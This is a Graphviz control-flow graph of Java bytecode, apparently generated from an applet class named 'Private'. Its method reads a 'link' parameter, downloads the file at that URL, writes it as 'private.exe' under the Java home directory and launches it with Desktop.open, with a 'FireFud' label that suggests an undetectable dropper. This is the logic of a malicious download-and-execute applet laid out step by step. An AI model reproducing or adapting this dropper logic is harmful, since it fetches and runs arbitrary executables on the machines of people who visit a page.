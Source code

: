 digraph "" {
    "r0 := @this: Private"
    "push null"
    "r0 := @this: Private"->"push null";
    "store.r $r31"
    "push null"->"store.r $r31";
    "push \"java.home\""
    "store.r $r31"->"push \"java.home\"";
    "store.r r0"
    "push \"java.home\""->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "load.r r0"
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>";
    "load.r $r31"
    "virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>"->"load.r $r31";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r $r31"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "goto return"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>"->"goto return";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>"->"store.r r0";
    "store.r r0"->"load.r $r31";
    "load.r $r31"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "goto load.r r0"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "athrow"
    "load.r r0"->"athrow";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"store.r $r31";
    "store.r $r31"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r $r31";
    "load.r $r31"->"virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r $r17"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r $r17";
    "store.r $r17"->"staticget <java.lang.System: java.io.PrintStream out>";
    "new java.lang.StringBuilder"
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r $r17"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r17";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r $r17"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FireFud\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FireFud\"";
    "push \"FireFud\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
    "new java.io.File"
    "virtualinvoke <java.io.PrintStream: void print(java.lang.String)>"->"new java.io.File";
    "store.r $r12"
    "new java.io.File"->"store.r $r12";
    "load.r $r12"
    "store.r $r12"->"load.r $r12";
    "load.r $r12"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r17";
    "load.r $r17"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\private.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\private.exe\"";
    "push \"\\private.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "new java.io.BufferedInputStream"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"new java.io.BufferedInputStream";
    "new java.io.BufferedInputStream"->"store.r $r17";
    "store.r $r17"->"load.r $r17";
    "new java.net.URL"
    "load.r $r17"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <Private: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <Private: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Private: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"load.r $r17";
    "load.r $r17"->"store.r $r31";
    "new java.io.FileOutputStream"
    "store.r $r31"->"new java.io.FileOutputStream";
    "store.r $r21"
    "new java.io.FileOutputStream"->"store.r $r21";
    "load.r $r21"
    "store.r $r21"->"load.r $r21";
    "load.r $r21"->"load.r $r12";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"
    "load.r $r12"->"specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"->"new java.io.BufferedOutputStream";
    "store.r $r22"
    "new java.io.BufferedOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r $r21";
    "push 1024"
    "load.r $r21"->"push 1024";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "push 1024"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r0";
    "store.r r0"->"load.r $r17";
    "load.r $r17"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"push 1024";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[],int,int)>"
    "push 1024"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[],int,int)>";
    "store.i $i0"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[],int,int)>"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "push -1"
    "load.i $i0"->"push -1";
    "ifcmpeq.i load.r $r22"
    "push -1"->"ifcmpeq.i load.r $r22";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
    "goto load.r $r17"
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"goto load.r $r17";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r $r21";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r21"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r $r17";
    "load.r $r17"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "staticinvoke <java.awt.Desktop: java.awt.Desktop getDesktop()>"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"staticinvoke <java.awt.Desktop: java.awt.Desktop getDesktop()>";
    "staticinvoke <java.awt.Desktop: java.awt.Desktop getDesktop()>"->"load.r $r12";
    "virtualinvoke <java.awt.Desktop: void open(java.io.File)>"
    "load.r $r12"->"virtualinvoke <java.awt.Desktop: void open(java.io.File)>";
    "virtualinvoke <java.awt.Desktop: void open(java.io.File)>"->"load.r $r17";
    "load.r $r17"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"goto return";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.Object)>"->"goto return";
}
